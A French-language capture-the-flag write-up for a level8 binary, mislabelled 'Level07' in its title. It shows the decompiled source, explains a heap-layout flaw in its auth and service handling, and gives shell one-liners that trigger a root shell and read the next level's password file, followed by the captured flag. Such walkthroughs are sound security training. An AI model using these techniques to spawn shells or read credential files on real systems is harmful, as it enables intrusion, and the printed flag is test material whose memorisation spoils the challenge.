 # Rapport CTF - [Level07]

### Observation :
En arrivant sur le level8 on trouve un executable nommé level8.\
Quand nous essayons de le lancer\
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[5]; // [esp+20h] [ebp-88h] BYREF
  char v5[2]; // [esp+25h] [ebp-83h] BYREF
  char v6[129]; // [esp+27h] [ebp-81h] BYREF

  while ( 1 )
  {
    printf("%p, %p \n", auth, (const void *)service);
    if ( !fgets(s, 128, stdin) )
      break;
    if ( !memcmp(s, "auth ", 5u) )
    {
      auth = (char *)malloc(4u);
      *(_DWORD *)auth = 0;
      if ( strlen(v5) <= 0x1E )
        strcpy(auth, v5);
    }
    if ( !memcmp(s, "reset", 5u) )
      free(auth);
    if ( !memcmp(s, "service", 6u) )
      service = (int)strdup(v6);
    if ( !memcmp(s, "login", 5u) )
    {
      if ( *((_DWORD *)auth + 8) )
        system("/bin/sh");
      else
        fwrite("Password:\n", 1u, 0xAu, stdout);
    }
  }
  return 0;
}
```
Ok que nous donne ce code:
- si on fait `"auth "` on malloc 4octets.
- si on fait `"reset"` on free auth.
- si on fait `"servic"` (uniquement 6 a comparer) on malloc `v6 = 128`.
- si on fait `"login"` on regarde si auth + 8 n'est pas vide pour `/bin/sh`, sinon on ecrit `"Password:\n"` .

### Solution :
Le but est donc de creer `auth` puis mettre de la memoire a auth+8 avec `servic` puis essayer de login pour avoir acces a un shell.

On fait la commande suivante pour obtenir le flag :
```sh
(echo "auth "; echo "servic";echo "service"; echo "login"; echo $(echo "cat /home/user/level9/.pass")) | ./level8
--------------------------------------------------
(echo "auth "; echo "servicE0123456789abcdef"; echo "login"; echo $(echo "cat /home/user/level9/.pass")) | ./level8

```

### Resultat :
```sh
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

